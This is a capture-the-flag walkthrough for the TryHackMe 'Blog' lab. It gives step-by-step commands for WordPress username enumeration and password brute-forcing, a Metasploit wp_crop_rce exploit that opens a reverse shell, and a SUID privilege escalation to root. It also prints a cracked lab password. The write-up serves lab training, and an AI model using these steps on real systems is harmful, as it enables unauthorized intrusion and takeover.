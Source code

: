 # Writeup, Walkthrough
https://tryhackme.com/room/blog

For this box we must add the IP to /etc/hosts

```echo '10.10.159.232 blog.thm' >> /etc/hosts```



## Enumeration

- Run a nmap scan to see what ports are open and what services are running.

    - ```nmap -sC -sV -oN nmap.txt 10.10.159.232```
    - Open Ports
        - 22 SSH - OpenSSH 7.6p1
        - 80 HTTP - Apache/2.4.29
        - 139 netbios-ssn - Samba smbd 3.X - 4.X
        - 445 netbios-ssn - Samba smbd 4.7.6
        - ![](pix/nmap.png)

- The webpage is running Wordpress, robots.txt leads me to the admin page. 
    - /wp-admin, and ,/wp-admin/admin-ajax.php
    - The default WP credentials does not work but it tells me that the username is invalid.
        - ![](pix/admin.png)

    - I can use wpscan to enumerate further.
    - wpscan can enumerate WordPress usernames
        - ```
            wpscan --url http://10.10.159.232 --enumerate u
            ```
    - wpscan found 2 username, kwheel and bjoel. bjoel seems to be the admin of the webpage.
        - ![](pix/user.png)

    - Lets try to brute force the login with wpscan using the known usernames.
        ```
        wpscan --url http://10.10.159.232 --passwords /usr/share/wordlists/rockyou.txt --usernames bjoel,kwheel
        ```
    - Moments later wpscan found password for khweel:cutiepie1 and still going for bjoel.

- After some googling it seems like WP 5.0 is vulnerable to CVE 2019-8943 and CVE 2019-8942 and there is a msf exploit. 
    - https://www.exploit-db.com/exploits/46662

- Lets fire up msfconsole
    - exploit = exploit/multi/http/wp_crop_rce
    - set RHOSTS 10.10.159.232 
    - set RPORT 80
    - set USERNAME kwheel
    - set PASSWORD cutiepie1
    - set LHOST 10.9.5.82 (local IP)
    - run or exploit
- msfconsole will open a shell. Type shell to open a bash shell.

    - ![](pix/msf1.png)
    - to upgrade the shell
        - ```
            python -c 'import pty; pty.spawn("/bin/bash")'
            ```
- There is a user.txt file inside /home/bjoel but it doesnt contain the flag.
- The hint suggests it's in /media/usb/user.txt but Permission denied.
- Let us get root


## Privilege Escalation


- Finding SUID binaries
    - ```
        find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
        ```

- While checking for binaries with SUID, /usr/sbin/checker looks interesting.

- When I try to run checker it says "Not an admin"
- lets run ltrace to dig into checker.
    - ltrace shown the admin env is set to null, maybe that's why it says "not an admin"
    - ![](pix/checker.png)
    - Lets make admin env = True 
    - export admin=1 (will make admin True)
    - running ltrace /usr/sbin/checker confirms admin=1
- /usr/sbin/checker gives us root

- ![](pix/root.png)
- Now we can cat root.txt and /media/usb/user.txt


### bada bing bada boom .... We have rooted Blog




